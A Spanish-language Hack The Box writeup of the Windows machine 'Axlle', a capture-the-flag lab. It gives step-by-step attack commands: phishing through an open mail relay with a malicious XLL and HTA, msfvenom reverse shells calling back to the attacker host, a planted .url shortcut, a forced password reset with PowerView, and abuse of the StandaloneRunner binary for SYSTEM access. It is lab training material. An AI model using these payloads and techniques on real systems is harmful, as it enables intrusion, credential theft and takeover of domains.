





+++
author = "Andrés Del Cerro"
title = "Hack The Box: Axlle Writeup | Hard"
date = "2024-11-17"
description = ""
tags = [
    "HackTheBox",
    "Axlle",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "Phising",
    "Creating Malicious HTA",
    "Creating Malicious XLL",
    "Creating Malicious Browser Link",
    "User Pivoting",
    "BloodHound",
    "SharpHound",
    "Abusing ForceChangePassword",
    "PowerView.ps1",
    "Abusing StandaloneRunner",
    "Abusing LOLBins"
]

+++

# Hack The Box: Axlle Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Axlle"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration
```shell
$ rustscan -a 10.129.253.213 --ulimit 5000 -g
10.129.253.213 -> [25,53,80,88,135,139,389,445,464,593,3268,3269,5985,9389,49664,62017,62025,62021,62022,62040]
```

```shell
$ nmap -p25,53,80,88,135,139,389,445,464,593,3268,3269,5985,9389,49664,62017,62025,62021,62022,62040 -sCV -Pn 10.129.253.213 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-02 16:21 CEST
Nmap scan report for 10.129.253.213
Host is up (0.038s latency).

PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: MAINFRAME, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Axlle Development
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-02 12:21:50Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
62017/tcp open  msrpc         Microsoft Windows RPC
62021/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
62022/tcp open  msrpc         Microsoft Windows RPC
62025/tcp open  msrpc         Microsoft Windows RPC
62040/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MAINFRAME; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-02T12:22:39
|_  start_date: N/A
|_clock-skew: -1h59m41s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.00 seconds
```

# UDP Enumeration
```shell
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.253.213 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-02 16:23 CEST
Nmap scan report for 10.129.253.213
Host is up (0.041s latency).
Not shown: 1497 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
```

Me llama la atención que esté el puerto 25 abierto, si el servicio de correo está mal configurado, podríamos enviar un correo a algún usuario y quizás podamos conseguir algún ataque de phising o algo parecido.

# DNS Enumeration
Siempre que veo un servicio de DNS me gusta enumerarlo y realizar fuerza bruta a ver si encuentro algún subdominio.

Para ello primero necesito un dominio, y haciendo un simple `whatweb` podemos encontrar un dominio.
`axlle.htb`
```shell
$ whatweb http://10.129.253.213
http://10.129.253.213 [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[accounts@axlle.htb], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.253.213], Microsoft-IIS[10.0], Script, Title[Axlle Development]
```

Encontramos un NS
```shell
 dig NS axlle.htb @10.129.253.213

; <<>> DiG 9.18.24-1-Debian <<>> NS axlle.htb @10.129.253.213
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 12630
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;axlle.htb.			IN	NS

;; ANSWER SECTION:
axlle.htb.		3600	IN	NS	mainframe.axlle.htb.

;; ADDITIONAL SECTION:
mainframe.axlle.htb.	1200	IN	A	10.129.253.213
mainframe.axlle.htb.	1200	IN	AAAA	dead:beef::f938:ff46:9a65:3d9
mainframe.axlle.htb.	1200	IN	AAAA	dead:beef::f6
```

Por fuerza bruta no encontré nada.

# HTTP Enumeration
En el sitio web encontramos un correo
`accounts@axlle.htb` -> importante si existe un servicio SMTP detrás enumerar direcciones de correo.

No consigo una NULL SESSION ni por RPC, LDAP ni SMB.

# SMTP Enumeration
Hay que tener en cuenta que está el WinRM expuesto.

Nos damos cuenta de que este servicio está mal configurado ya que podemos mandar correos electrónicos sin necesidad de autenticarnos.

```shell
250 Hello.
MAIL FROM:example@axlle.htb
250 OK
RCPT TO:accounts
550 A valid address is required.
RCPTO TO: accounts@axlle.htb
503 Bad sequence of commands
RCPT TO: accounts@axlle.htb
250 OK
DATA
354 OK, send.
Esto es una prueba
From: test@axlle.htb
To: accounts@axlle.htb
Subject: Email de prueba
Este es mi email de prueba
.
.
<CRLF>.<CRLF250 Queued (47.297 seconds)
```

Lo podemos probar con `swaks` mas fácilmente.
```shell
$  swaks --to accounts@axlle.htb --from pointed@axlle.htb --header "Subject: test" --body "please click here http://10.10.14.80:8081/" --server 10.129.253.213
=== Trying 10.129.253.213:25...
=== Connected to 10.129.253.213.
<-  220 MAINFRAME ESMTP
 -> EHLO parrot
<-  250-MAINFRAME
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<pointed@axlle.htb>
<-  250 OK
 -> RCPT TO:<accounts@axlle.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Fri, 02 Aug 2024 16:41:16 +0200
 -> To: accounts@axlle.htb
 -> From: pointed@axlle.htb
 -> Subject: test
 -> Message-Id: <20240802164116.003875@parrot>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> please click here http://10.10.14.80:8081/
 -> 
 -> 
 -> .

<-  250 Queued (10.969 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

Aunque no nos llega ninguna respuesta.
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...

```

Haciendo alusión al nombre de la máquina, quizás pueda mandar un archivo XLL a la víctima.

Y aquí la cabeza me hizo click cuando leí el siguiente mensaje en la página principal.
`If you have any outstanding invoices or requests, please email them to accounts@axlle.htb in Excel format. Please note that all macros are disabled due to our security posture. ` y además vi que la imagen de la máquina es un pescador (phising).

Voy a probar a mandar un Excel XLL malicioso como archivo a través de `swaks` a la cuenta `accounts@axlle.htb`

# Foothold -> Creating Malicious XLL File

Primero tenemos que generar nuestro payload en formato binario. Importante que sea para una arquitectura de 64 bits.
```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.80 LPORT=443 -f raw -o shell.bin
```

Tras investigar, encontramos varios PoC para generar archivos XLL maliciosos, uno de ellos me funcionó.
[PoC](https://github.com/zimnyaa/xyrella)
[Post Explicativo](https://tishina.in/initial-access/xll-delivery)

Necesitamos instalar Nim, MinGW, Python y algunas dependencias de Nim

```cmd
nimble install ptr_math
nimble install winim
nimble install nimcrypto
```

Una vez teniendo todo eso, podemos generar nuestro archivo XLL malicioso.
```cmd
python build.py -e -o shell -s .\shell.bin
```

Y ahora nos ponemos en escucha con `netcat` por el puerto 443.

Y enviamos un correo a la cuenta de correo electrónico anteriormente encontrada adjuntando el archivo xll malicioso que hemos creado.

```shell
$ swaks --from administrator@axlle.htb --to accounts@axlle.htb --server 10.129.253.213 --port 25 --header 'Excel file' --body 'Here is your excel file' --attach @shell.xll
```

```cmd
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.253.213] 62180
Microsoft Windows [Version 10.0.20348.2527]
(c) Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
axlle\gideon.hamill
```

Aquí todavía no está la flag.
# User Pivoting
Enumerando los correos del usuario `dallon.matrix` encontramos este mensaje
```
Return-Path: webdevs@axlle.htb
Received: from bumbag (Unknown [192.168.77.153])
	by MAINFRAME with ESMTP
	; Mon, 1 Jan 2024 06:32:24 -0800
Date: Tue, 02 Jan 2024 01:32:23 +1100
To: dallon.matrix@axlle.htb,calum.scott@axlle.htb,trent.langdon@axlle.htb,dan.kendo@axlle.htb,david.brice@axlle.htb,frankie.rose@axlle.htb,samantha.fade@axlle.htb,jess.adams@axlle.htb,emily.cook@axlle.htb,phoebe.graham@axlle.htb,matt.drew@axlle.htb,xavier.edmund@axlle.htb,baz.humphries@axlle.htb,jacob.greeny@axlle.htb
From: webdevs@axlle.htb
Subject: OSINT Application Testing
Message-Id: <20240102013223.019081@bumbag>
X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
Hi everyone,
The Web Dev group is doing some development to figure out the best way to automate the checking and addition of URLs into the OSINT portal.
We ask that you drop any web shortcuts you have into the C:\inetpub\testing folder so we can test the automation.
Yours in click-worthy URLs,
The Web Dev Team
```

Enumerando el servicio hMailServer, sabemos que hay un archivo llamado hMailServer.ini que se encuentra o en el directorio `Windows` o en directorio `Bin` del directorio raíz de instalación, dentro de este archivo se encuentran credenciales encriptadas.
```cmd
C:\Program Files (x86)\hMailServer\Bin>type hMailServer.INI
type hMailServer.INI
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=52a1b2a1211e690998e0d2ccb653ff22
[Database]
Type=MSSQLCE
Username=
Password=52abe4d2e16269ddddf7b166218e92d9
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1

C:\Program Files (x86)\hMailServer\Bin>
```

Podemos desencriptar esta contraseña, la de la base de datos, utilizando este [PoC](https://github.com/GitMirar/hMailDatabasePasswordDecrypter)
Pass -> A02D41C55AC

Pero esta pass no sirve para nada, por lo cual, vamos a aprovechar lo que sabemos del correo encontrado.
`drop any web shortcuts you have into the C:\inetpub\testing folder so we can test the automation`


Creé un archivo .url en el directorio `C:\inetpub\testing` con este formato pero apuntando a mi máquina.

```
[{000214A0-0000-0000-C000-000000000046}]

Prop3=19,9

[InternetShortcut]

IDList=

URL=file://51.79.185[.]145/pdf/data1.zip/pdf1.cpl

IconIndex=13

HotKey=0

IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
```

Y capturé un hash NTLMv2 que no pude crackear, pero esto me sirve para saber que el usuario dallon.matrix está abriendo estos archivos, así que ya tengo claro el vector de ataque.
```
dallon.matrix::AXLLE:aaaaaaaaaaaaaaaa:8aba7b6bafde0dc8d454f35cf15b1029:010100000000000000e46e9dfde4da010fb198cd7ebfc63d000000000100100047004500460054006e006400710056000300100047004500460054006e00640071005600020010004e00730054004a004d00640054004b00040010004e00730054004a004d00640054004b000700080000e46e9dfde4da0106000400020000000800300030000000000000000100000000200000ee1ef70c7796141f1b5697e749cbbec39a1feb03c8cfc45e989aee8f08efcdc10a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00380030000000000000000000
```

Para ello, podemos crear el típico archivo HTA
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.80 LPORT=443 -f hta-psh -o evil.hta
```

Nos creamos un archivo `evil.url`
```shell
$ cat evil.url
[InternetShortcut]

URL=C:\Users\Public\Documents\evil.hta

ShowCommand=7

IconIndex=247

IconFile=C:\Windows\System32\shell32.dll
```

El archivo `evil.hta` que hemos creado con `msfvenom` lo dejamos en `C:\Users\Public\Documents\evil.hta`

Ahora, nos ponemos en escucha con `netcat` por el puerto 443.

Subimos el archivo `evil.url` a `C:\inetpub\testing` como bien decía la nota y...
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.253.213] 60887
Microsoft Windows [Version 10.0.20348.2527]
(c) Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
axlle\dallon.matrix
```

# User Pivoting 2
Después de enumerar un rato la máquina, vamos a ejecutar BloodHound.
Me copio el `SharpHound` a la máquina víctima.
`C:\Users\dallon.matrix\Desktop>copy \\10.10.14.80\smbFolder\SharpHound.exe SharpHound.exe`

Y simplemente lo ejecutamos
`C:\Users\dallon.matrix\Desktop>.\SharpHound.exe`

Y copiamos el resultado a nuestra máquina de atacante.
`C:\Users\dallon.matrix\Desktop>copy 20240802083534_BloodHound.zip \\10.10.14.80\smbFolder\20240802083534_BloodHound.zip`

Ahora abrimos el `bloodhound` y levantamos la BBDD de `neo4j` y seleccionamos el zip.


Voy a marcar este usuario como `owned`


Pertenece a un grupo interesante, `APP DEVS@AXLLE.HTB`.



Los usuarios de este grupo pueden cambiar la contraseña a los usuarios
`jacob.greeny` y a `baz.humphries`


Estos dos usuarios pertenecen a los mismos grupos, vamos a migrar a `jacob.greeny`.

Además, estos usuarios están en el grupo de `Remote Management Users` por lo cual vamos a poder hacer uso de `evil-winrm` para conseguir una consola interactiva a través del protocolo WinRM.

# Abusing ForceChangePassword
Antes de nada, he migrado a una shell de `nishang` para trabajar mas cómodamente.

Ahora me comparto el `PowerView.ps1` y importamos sus módulos.
```powershell
PS C:\Users\dallon.matrix\Desktop> copy \\10.10.14.80\smbFolder\PowerView.ps1 PowerView.ps1

PS C:\Users\dallon.matrix\Desktop> . .\PowerView.ps1
```

Y ahora me puedo crear un nuevo objeto de `SecureString`.
```powershell
PS C:\Users\dallon.matrix\Desktop> $NewPassword = ConvertTo-SecureString 'Pointed123@' -AsPlainText -Force
```

Y puedo cambiarle la credencial a `jacob.greeny`
```powershell
PS C:\Users\dallon.matrix\Desktop> Set-DomainUserPassword -Identity 'jacob.greeny' -AccountPassword $NewPassword
```

Con `netexec` podemos comprobar que hemos cambiado la credencial correctamente.
```shell
$ nxc smb 10.129.253.213 -u 'jacob.greeny' -p 'Pointed123@'
SMB         10.129.253.213  445    MAINFRAME        [*] Windows Server 2022 Build 20348 x64 (name:MAINFRAME) (domain:axlle.htb) (signing:True) (SMBv1:False)
SMB         10.129.253.213  445    MAINFRAME        [+] axlle.htb\jacob.greeny:Pointed123@
```

Y por alguna razón `netexec` me reporta que no tengo permisos para conectarme por WinRM
```shell
$ nxc winrm 10.129.253.213 -u 'jacob.greeny' -p 'Pointed123@'
WINRM       10.129.253.213  5985   MAINFRAME        [*] Windows Server 2022 Build 20348 (name:MAINFRAME) (domain:axlle.htb)
WINRM       10.129.253.213  5985   MAINFRAME        [-] axlle.htb\jacob.greeny:Pointed123@

```

pero `evil-winrm` demuestra lo contrario....
```shell
$ evil-winrm -i 10.129.253.213 -u 'jacob.greeny' -p 'Pointed123@'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jacob.greeny\Documents> whoami
axlle\jacob.greeny
```

# Privilege Escalation - Abusing StandaloneRunner
Ahora que ya somos `jacob.greeny`

Antes, había visto un directorio al cual no podía acceder, ahora como este usuario si puedo acceder.
`C:\App Development`

Nos encontramos un proyecto en `C#` llamado `kbfiltr` , leyendo el `README.md` encontramos esto que me llama la atención.
```
**NOTE: I have automated the running of `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` as SYSTEM to test and debug this driver in a standalone environment**
```

Entonces si tuviera permisos de escritura en esa carpeta, podría reemplazar yo el binario por un payload hecho con `msfvenom` y supuestamente lo debería de ejecutar la cuenta administradora del sistema.

Podemos comprobar los permisos con `icacls`
```powershell
*Evil-WinRM* PS C:\App Development\kbfiltr> icacls "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64"
C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64 AXLLE\App Devs:(OI)(CI)(RX,W)
                                                                              Everyone:(I)(OI)(CI)(R)
                                                                              AXLLE\Administrator:(I)(OI)(CI)(F)
                                                                              BUILTIN\Users:(I)(OI)(CI)(R)
                                                                              AXLLE\App Devs:(I)(OI)(CI)(RX)
                                                                              NT SERVICE\TrustedInstaller:(I)(F)
                                                                              NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                                                              NT AUTHORITY\SYSTEM:(I)(F)
                                                                              NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                                                              BUILTIN\Administrators:(I)(F)
                                                                              BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                                                              BUILTIN\Users:(I)(RX)
                                                                              BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                                                              CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                                                              APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                                              APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                                                                              APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                                                              APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

Y vemos que el siguiente permiso `AXLLE\App Devs:(OI)(CI)(RX,W)`

Esto significa que nuestro usuario, como pertenece al grupo `App Devs`, puede escribir en esa carpeta, por lo cual podríamos reemplazar el binario y escalar privilegios ya que según la nota, debe de haber una especie de tarea cron recurrente que ejecuta ese binario como el administrador.

Creamos el binario malicioso con `msfvenom`
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.80 LPORT=443 -e x86/shikata_ga_nai -f exe -o standalonerunner.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: standalonerunner.exe
```

```powershell
*Evil-WinRM* PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64> upload standalonerunner.exe
```
Nos venimos a la ruta `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64` y subimos con la función `upload` que incluye `evil-wirnm` el binario malicioso recién creado.

Y ahora si nos ponemos en escucha con `netcat` por el puerto 443...

**NO PASA NADA**
¿Por qué?  -> Por alguna razón, no podemos tocar el .exe, tenemos permisos sobre el directorio pero no sobre el .exe. Muchas personas han resuelto la máquina con este método pero resulta que no era el método intencionado y por eso fue parcheado.

Así que vamos a hacer el método intencionado.

Resulta que este binario pertenece a la colección de `LOLBins`, una colección de binarios que tienen comportamientos un poco extraños.

Buscando un poco encontré un tweet que me llevó a este [post](https://github.com/nasbench/Misc-Research/blob/main/LOLBINs/StandaloneRunner.md)

Y parece que hay una función que te permitirían ejecutar comandos si existen unas condiciones.
```cs
public static void RunCommand(string cmd)
{
    cmd = TestRunnerUtil.ParseParams(cmd, TestRunner.GlobalParams);
    ProcessStartInfo startInfo = new ProcessStartInfo();
    startInfo.WorkingDirectory = TestRunner.WorkingDir.FullName;
    startInfo.UseShellExecute = false;
    startInfo.RedirectStandardOutput = true;
    startInfo.RedirectStandardError = true;
    startInfo.FileName = "CMD.exe";
    startInfo.Arguments = "cmd /c " + cmd;
    Console.WriteLine(string.Format((IFormatProvider) CultureInfo.CurrentCulture, "Running {0}", new object[1]
    {
        (object) cmd
    }));
    Process p = Process.Start(startInfo);
    if (cmd.Contains("te.exe"))
        TestRunner.RunTAEF(p);
    p.WaitForExit();
}
```

Primero nos copiamos los archivos `standalonerunner.exe` y `standalonexml.dll` a un directorio.
```powershell
*Evil-WinRM* PS C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64> copy * C:\Windows\Temp\work
```

Tenemos que crear un archivo `reboot.rsf` que contenga lo siguiente para que el flujo del programa pase por donde nosotros queremos.
```shell
$ cat reboot.rsf 
myTestDir
True
```

Ahora, para que en el método `MakeWorkingDir` la condición sea verdadera, tenemos que crear un par de directorios. El directorio `myTestDir` y dentro el directorio `working`.
`C:\Windows\Temp\work\myTestDir\working`

Y ahora en el directorio donde se encuentra el `standalonerunner.exe` creamos un archivo `command.txt` con el comando que queremos ejecutar.

En mi caso
```cmd
C:\Windows\Temp\work\shell.exe
```

Podemos comprobar que nos manda la reverse shell si ejecutamos el binario `standalonerunner.exe` y esperamos unos segundos.

Ahora replicamos lo mismo en el directorio
`C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64` ya que en principio `SYSTEM` está ejecutando el binario de forma periódica.


Y nos ponemos en escucha con `netcat` por el puerto 443...

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.253.213] 52156
Microsoft Windows [Version 10.0.20348.2527]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\myTestDir\working>whoami
whoami
axlle\administrator
```

Y ya habríamos escalado privilegios.

```cmd
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BFF7-F940

 Directory of C:\Users\Administrator\Desktop

01/01/2024  04:45 AM    <DIR>          .
01/02/2024  04:05 AM    <DIR>          ..
08/02/2024  05:19 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,924,068,864 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
513f9092e0147eb40...
```

¡Y ya estaría!
Una máquina bastante chula donde se aprenden un montón de conceptos nuevos, he disfrutado mucho completandola.

Happy Hacking! 🚀